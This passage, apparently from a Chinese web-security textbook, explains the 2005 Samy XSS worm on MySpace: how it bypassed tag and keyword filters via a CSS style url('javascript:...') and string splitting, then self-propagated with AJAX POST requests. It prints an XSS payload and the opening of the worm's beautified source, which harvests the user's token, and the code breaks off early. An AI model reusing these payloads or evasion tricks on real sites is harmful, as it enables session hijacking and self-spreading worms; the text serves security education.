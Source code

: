  3.2.4 终极武器：XSS Worm

 2016-04-06

终极武器：XSS Worm
XSS也能形成蠕虫吗？我们知道，以往的蠕虫是利用服务器端软件漏洞进行传播的。比如2003年的冲击波蠕虫，利用的是Windows的RPC远程溢出漏洞。

 2016-04-06

Samy Worm
在2005年，年仅19岁的Samy Kamkar发起了对MySpace.com的XSS Worm攻击。Samy Kamkar的蠕虫在短短几小时内就感染了100万用户——它在每个用户的自我简介后边加了一句话：“but most of all, Samy is my hero.”（Samy是我的偶像）。这是Web安全史上第一个重量级的XSS Worm，具有里程碑意义。

 2016-04-06

今天我们看看当时的Samy蠕虫都做了些什么？


首先，MySpace过滤了很多危险的HTML标签，只保留了``<a>标签``、``<img>标签``、``<div>标签``等“安全的标签”。所有的事件比如“onclick”等也被过滤了。但是MySpace却允许用户控制标签的style属性，通过style，还是有办法构造出XSS的。比如：

```
<div style="background:url('javascript:alert(1)')">
```

其次，MySpace同时还过滤了``javascript``、``onreadystatechange``等敏感词，所以Samy用了“拆分法”绕过这些限制。
最后，Samy通过AJAX构造的POST请求，完成了在用户的heros列表里添加自己名字的功能；同时复制蠕虫自身进行传播。至此，XSS Worm就完成了。有兴趣的读者可以参考Samy蠕虫的技术细节分析。
 2016-04-06

下面附上Samy Worm的源代码。这是具有里程碑意义的第一个XSS Worm，原本的代码压缩在一行内。为了方便阅读，如下代码已经经过了整理和美化。


```
<div id=mycode style="BACKGROUND: url('javascript:eval(document.all.mycode.expr)')"
    expr="var B=String.fromCharCode(34);
    var A=String.fromCharCode(39);
    function g(){
      var C;
      try{
        var D=document.body.createTextRange();
        C=D.htmlText
      }catch(e){
      }

      if(C){
        return C
      }else{
      return eval('document.body.inne'+'rHTML')
      }
    }

    function getData(AU){
      M=getFromURL(AU,'friendID');
      L=getFromURL(AU,'Mytoken')
    }

    function getQueryParams(){
      var E=document.location.search;
      var F=E.substring(1,E.length).split('&');
      var AS=new Array();

      for(var O=0;O<F.length;O++){
        var I=F[O].split('=');
        AS[I[0]]=I[1]}return AS
      }

      var J;
      var AS=getQueryParams();
      var L=AS['Mytoken'];
```